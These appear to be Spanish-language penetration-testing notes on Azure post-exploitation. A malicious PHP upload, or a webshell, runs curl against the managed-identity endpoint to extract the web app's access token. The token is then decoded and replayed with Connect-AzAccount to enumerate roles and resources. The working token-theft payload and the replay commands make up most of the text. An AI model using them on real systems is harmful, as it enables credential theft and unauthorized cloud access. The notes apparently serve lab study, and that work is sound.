 # Enumeración teniendo un Token 

Tags: #Azure #CloudComputing 

## Extraer el Token de sesión

```bash 
# Extraer el Token de rol del aplicativo web 

<?php 
	system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>

Nota:
	1. Crear un archivo PHP y subirlo al formulario directamente con el comando 
	2. Crear una Webshell en donde se puedan ejecutar comandos y ahi colocar solo el comando para extraer el Token 
```

## Analizar Token 

* [jwt](https://jwt.io/)

```bash 
Valores importantes en el Token cuando se esta analizando con 'jwt':

1. ObjetId = Es el campo llamado 'sub' en el Token y es el identificador del recurso 
2. Client_id = Es el 'appid' en el Token
```

## Autenticarse con Powershell AZ 

* [Install Azure Powershell on Windows](https://learn.microsoft.com/en-us/powershell/azure/install-azps-windows?view=azps-14.0.0&viewFallbackFrom=azps-13.4.0&tabs=powershell&pivots=windows-msi)

```powershell 
❯ $token="eyJ0eXA...."       # Crear una variable con el token obtenido 

❯ Connect-AzAccount -AccessToken $token -AccountId 'appid'     # Autenticarse a una cuenta de Azure a nivel de recurso 

Notas:
	1. El token fue obtenido con el comando system al subir un archivo malicioso en '3 Attacks - 1 Vector Uploader'
```

## Comandos Powershell AZ 

* [Roles en Azure](https://learn.microsoft.com/en-us/azure/role-based-access-control/built-in-roles)
* [Azure Blob Storage](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction)

```bash 
Tipos de roles:
1. Reader         = Solo puede mirar 
2. Contributor    = Puede leer y cambiar 
3. Owner          = Puede leer, cambiar y asignar permisos 
```

```powershell 
❯ Get-AzRoleAssignment         # Mirar los roles y recursos asignados verificando el 'ObjectId' 

❯ Get-AzResource               # Listar todos los recursos visibles desde la sesión inicial 
```
